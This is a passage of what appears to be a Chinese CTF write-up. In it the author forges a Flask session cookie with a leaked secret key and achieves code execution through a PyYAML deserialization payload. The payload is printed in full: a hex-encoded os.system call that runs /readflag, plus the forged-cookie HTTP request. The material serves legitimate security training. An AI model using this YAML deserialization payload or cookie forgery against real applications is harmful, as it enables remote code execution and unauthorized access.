 ```plain
        info = {'user': 'guest'}
    return render_template("view.html",user = info['user'])


if __name__ == "__main__":
    app.run('0.0.0.0',port=8888,threaded=True)
```
上传yaml文件，当session中user为elite时则load这个yaml。
拿着Th1s_is_A_Sup333er_s1cret_k1yyyyy构造得到cookie

![图片](https://uploader.shimo.im/f/f0oXkXLWSI8mFREl.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)


![图片](https://uploader.shimo.im/f/zvKwK4zzmRSyCJEv.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

[https://hackmd.io/@harrier/uiuctf20](https://hackmd.io/@harrier/uiuctf20)

看了下构造

```plain
a = "__import__('os').system('/readflag > ./uploads/edi')"
for i in range(len(a)):
    print(str(hex(ord(a[i]))).replace("0x",'\\x'),end='')
user: Administrator
A: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x2f\x72\x65\x61\x64\x66\x6c\x61\x67\x20\x3e\x20\x2e\x2f\x75\x70\x6c\x6f\x61\x64\x73\x2f\x65\x64\x69\x27\x29"
```
测试了下不出外网，readflag一下
```plain
GET /view HTTP/1.1
Host: eci-2ze9ady2g3fv6zilv1wf.cloudeci1.ichunqiu.com:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://eci-2ze9ady2g3fv6zilv1wf.cloudeci1.ichunqiu.com:8888/upload
Cookie: Hm_lvt_2d0601bd28de7d49818249cf35d95943=1606035934; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1606035949; session=eyJmaWxlbmFtZSI6ImV4cC55bWwiLCJwcml2aWxlZGdlIjoiZWxpdGUifQ.X7pRIA.vjFwSoWHjNMkJR9Bhlk4cuDoz70
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
![图片](https://uploader.shimo.im/f/DG4i5Jbty3tASLKZ.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)

![图片](https://uploader.shimo.im/f/sxtn3CGvNVe8CCUZ.png!thumbnail?fileGuid=yvqeuh3767ALaYnV)





